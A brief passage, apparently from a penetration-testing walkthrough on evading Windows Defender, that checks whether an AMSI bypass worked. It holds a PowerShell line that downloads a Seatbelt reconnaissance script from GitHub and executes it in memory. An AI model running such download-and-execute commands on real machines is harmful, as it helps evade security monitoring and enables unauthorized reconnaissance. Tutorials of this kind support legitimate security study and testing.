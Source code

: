 ![](/assets/img/defender-evasion-shellter-hoaxshell/defenderstatus1.png)

## Testing the effectiveness of AMSI bypass
It is time to test the effectiveness of the performed AMSI bypass.
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/refs/heads/master/PowerSharpBinaries/Invoke-Seatbelt.ps1')

Invoke-Seatbelt
```